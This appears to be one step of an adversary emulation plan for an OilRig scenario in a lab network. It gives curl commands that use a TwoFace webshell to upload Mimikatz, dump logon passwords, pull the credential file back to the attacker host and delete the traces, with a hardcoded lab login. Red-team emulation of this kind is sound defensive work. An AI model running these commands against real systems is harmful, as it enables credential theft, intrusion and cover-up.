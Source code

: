 ### :microphone: Voice Track

Step 6 emulates OilRig using the webshell to download Mimikatz to `WATERFALLS` 
and using elevated privileges to dump credentials. The dumped credentials 
(stored in `01.txt`) are exfiltrated back to the C2 (`192.168.0.4`) via the webshell.

After exfiltration is complete OilRig deletes both Mimikatz and the dumped 
credentials from the directory on `WATERFALLS`.

---

### :biohazard: Procedures

Download Mimikatz to `WATERFALLS (10.1.0.6)`.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\temp\' -F "vir=false" -F "nen=m64.exe" -F 'f1=@m64.exe' https://10.1.0.6/EWS/contact.aspx
```

Dump credentials using Mimikatz. Output includes creds for SQL server 
administrator `tous`.

:bulb: `privilege::debug` has been included here to match the CTI, but is
unnecessary due to the webshell running as SYSTEM.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Temp\01.txt" https://10.1.0.6/ews/contact.aspx
```

Exfiltrate the resulting output file `01.txt` to the attacker platform.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -o 01.txt --data 'don=c:\windows\temp\01.txt' https://10.1.0.6/EWS/contact.aspx
```

Display the contents of `01.txt` in the terminal window.

```bash
cat 01.txt
```

Clean up on `WATERFALLS` by removing the binary and output file from 
`C:\Windows\Temp\`.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=del C:\windows\temp\01.txt C:\windows\temp\m64.exe" https://10.1.0.6/EWS/contact.aspx
```
<br>

### :moyai: Source Code
:heavy_exclamation_mark: __NB__: The function descriptions in TwoFace (contact.aspx) refer to the Mimikatz download as "Arbitrary Folder Upload" and the 01.txt exfiltration as "File Download" which is the reverse of how said activities are described in the emulation procedure; this is to match to CTI but results in slightly contradictory source code links.
*  TwoFace Webshell download file to victim: [contact.aspx#L58-L115](../Resources/TwoFace/contact.aspx#L58-L115/)
*  TwoFace Webshell file upload file to C2: [contact.aspx#L120-L145](../Resources/TwoFace/contact.aspx#L120-L145/)
*  TwoFace Webshell temp delete: [contact.aspx#L150-L169](../Resources/TwoFace/contact.aspx#L150-L169/)
